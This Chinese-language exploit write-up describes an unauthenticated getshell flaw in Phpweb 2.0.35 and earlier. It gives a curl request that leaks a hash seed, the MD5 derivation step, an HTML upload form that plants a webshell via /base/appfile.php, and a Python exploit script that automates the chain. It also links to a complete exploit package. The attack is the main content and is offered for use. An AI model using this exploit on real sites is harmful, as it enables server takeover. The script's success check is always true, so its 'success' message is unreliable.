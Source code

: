 # Phpweb 前台getshell

### 一、漏洞简介

漏洞影响文件:/base/post.php /base/appfile.php /base/appplue.php /base/appborder.php

### 二、漏洞影响

Phpweb<=2.0.35

### 三、复现过程

1.首先要获取加密前的Md5值，用于文件较检,通过Post提交数据来获取!


```bash
curl "http://website/base/post.php" -H "act=appcode"
```

![](images/15893359782266.png)



```
ac34c64cdb405eff881efc5476a64761 ##这个就是初始值
```

2.获取加密后得md5值

然后将初始值md5加密`(ac34c64cdb405eff881efc5476a64761 + “a”)`

得到加密后的MD5值!


```
e10adc3949ba59abbe56e057f20f883e ##这个就是加密后的md5值(终值)!
```

3.Getsehll exp:


```html
<html>
<body>
<form action="http://0-sec.org/base/appfile.php" method="post" enctype="multipart/form-data">
<label for="file">Filename:</label>
<input type="file" name="file" id="file" />
<input type="text" name="t" value="a" />
<input type="text" name="m" value="25a824696cb75a44aabd05a08070789f" />
<input type="text" name="act" value="upload" />
<input type="text" name="r_size" value="14" />
<br />
<input type="submit" name="submit" value="getshell" />
</form>
</body>
</html>
```

![](images/15893360110226.png)


然后…Getshell!

![](images/15893360166500.png)


当出现OK两个大字时,说明你成功了!!!

上传的shell路径是


```
http://url/effect/source/bg/shell名称.php
```

![](images/15893360315738.png)


### 工具编写

Python exp[Python3]:


```python
# -*- coding: UTF-8 -*- #
import os
import requests
import hashlib

bdlj = os.getcwd()
headers = open(bdlj+"\headers.txt",'r')
headerss = headers.read()
print('\b')

ur = input("请输入目标网址:")
requrl =  ur + '/base/post.php'
reqdata = {"act":"appcode"}
r = requests.post(requrl,data=reqdata)
cz=r.text[2:34]
print ('初值:' + cz)

cz=r.text[2:34]+"a"
m = hashlib.md5()
b = cz.encode(encoding='utf-8')
m.update(b)
zz = m.hexdigest()
print ('终值:' + zz)

infile = open(bdlj + "\datas.txt", "r",encoding='utf-8')
outfile = open(bdlj + "\datah.txt", "w",encoding='utf-8')
for line in infile:
      outfile.write(line.replace('156as1f56safasfasfa', zz))
infile.close()
outfile.close()
datas = open(bdlj+"\datah.txt",'r')
datass = datas.read()

gs = requests.post(ur + '/base/appfile.php',data=datass,headers={'Content-Type':headerss})
gs.encoding = 'utf-8'
print (gs.text)

if {gs.text == "OK"}:
    print ("Getshell成功! Shell:" + ur + "/effect/source/bg/mstir.php")
else:
    print ("Getsehll失败!")
```

整包下载地址:https://github.com/ianxtianxt/Phpweb-Getshell-py

使用请下载整包,否则会缺少协议头和data数据!

使用教程:

![](images/15893360541589.png)


**参考链接**

https://m4tir.github.io/Phpweb-Reception-Getshell